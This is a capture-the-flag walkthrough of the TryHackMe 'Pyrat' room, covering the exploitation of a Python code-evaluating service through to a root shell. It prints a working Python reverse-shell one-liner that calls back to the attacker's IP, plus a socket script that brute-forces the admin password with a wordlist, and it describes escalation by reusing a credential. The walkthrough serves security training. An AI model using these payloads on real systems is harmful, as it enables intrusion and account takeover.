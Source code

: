 ```yaml
---
layout: post
title: TryHackMe - "Pyrat"
categories: Challenges
tags: pen-testing 
---
```

[Link to the challenge](https://tryhackme.com/room/pyrat)

## Intro

The web application (listening on port 8000) returns the sentence "Try a more basic connection" to our http requests.

Note: the web server is SimpleHTTP/0.6 Python/3.11.2. We can see this by using "curl" or burpsuite to make requests and see responses (including their header)

Since the application in its responses asks us to try a more basic connection, let's try to make a minimal request with "netcat" command

`echo "GET" | nc pyrat.tryhackme.local 8000`

The response is: "name GET is not defined". Strange!

If we execute this command:

`echo "GET /" | nc pyrat.tryhackme.local 8000`

...the response in this case is: "invalid syntax (<string>, line 1)"

These two strange responses are common errors generated by a Python interpreter. To confirm this, we can send a request containing a valid Python instruction, and see it's interpreted correctly. For example, we send the following one, which produces "hello world" output.

`echo 'print("hello world")' | nc pyrat.tryhackme.local 8000`

The server interprets our requests as python instructions, then we can make it execute a malicious shell (a reverse shell)

## Exploit

Since the web application interprets our requests as pure python code, we can send a python script to generate a reverse shell

    echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.132.194",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' | nc pyrat.tryhackme.local 8000

Of course, in our attacker machine we need to use the respective netcat listener (on port 4445) of this tcp reverse shell, so that we can send input and receive output from the newly created shell in the target machine.

In this way we get a bash session in the victim machine, as user 'www-data'

## Privilege escalation

In order to obtain the privileges of another user (named "think"), we note one thing: in the directory */opt/dev/.git* there is a repository we can view; inside it, we can read "config" file, which contains a specific Git password, but maybe this password is the same used by "think" to log into operating system. Let's try:

`su - think`

We write the discovered password (we don't spoil it), and we are logged with "think" privileges, so among other things, we can read the first flag, "user.txt"

Now we can try to do some experiments with this repository. For example, we can read the commit logs and see if there are any old files that can be useful to us, and we can view the current repository status

`git log --patch`

`git status`

Thanks to these two commands, we see that in the last commit there was a file, "pyrat.py.old", which has been deleted.
We can also notice that the file "pyrat.py.old" should be an old version of the file that manages requests to the target web application.
In fact, we notice the "exec_python" instruction that is used to interpret client requests as python code.

But looking at that old python file, we also notice another endpoint (called "shell") that allows the client to obtain a shell, and this endpoint actually works (if we had guessed it before, we could have obtained a shell without any effort, without even using our malicious script); just send "shell" string as request to the server, and a shell opens as a limited user.

We guess there are other useful endpoints, as the presence of "some_endpoints" in the python code suggests.
From our client machine (attacker machine), we establish a netcat connection at port 8000, like before, and we try these random requests. We are lucky: we find "admin" endpoint.

    endpoint
    name 'endpoint' is not defined
    some_endpoint
    name 'some_endpoint' is not defined
    root
    name 'root' is not defined
    select
    name 'select' is not defined
    password
    name 'password' is not defined
    admin
    Start a fresh client to begin.

Well, we retry to establish a new netcat connection using "admin" endpoint at the beginning, and we see that this endpoint requires a password (3 attempts maximum):

    admin
    Password:
    Password:
    Password:

We implement the following python script, and we call it, in our attacker machine (client machine), to bruteforce admin password using "rockyou.txt" dictionary

    import socket
    import sys

    def start_client():
        host = 'pyrat.tryhackme.local'
        port = 8000
        filepath = sys.argv[1]
        f = open(filepath, 'r', encoding='utf-8', errors='ignore')
        words = f.readlines()
        f.close()
        for word in words:
            client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client_socket.connect((host, port))
            endpoint_req = "admin\r\n"
            client_socket.send(endpoint_req.encode())
            resp1 = client_socket.recv(1024)
            client_socket.send(word.encode())
            resp2 = client_socket.recv(1024)
            resp2_str = resp2.decode()
            print(f"Word:{word}", end="")
            print(f"Response:{resp2_str}")
            if ("Password:" not in resp2_str):
                print("Password found: ", word)
                client_socket.close()
                break
            client_socket.close()
            
    if __name__ == "__main__":
        start_client()

Well! The password is.... (we don't spoil it) 😊
We write the correct password, and the server tells us: "Welcome Admin!!! Type "shell" to begin".
We type "shell" and we are logged as root, and we can read the root flag.

NOTE: we obtain root privileges because the web application runs as root in the target machine (it's located in */root/pyrat.py*): it's implemented to grant root access if we log to "admin" endpoint successfully (and we request "shell" endpoint immediately after it, in the same connection).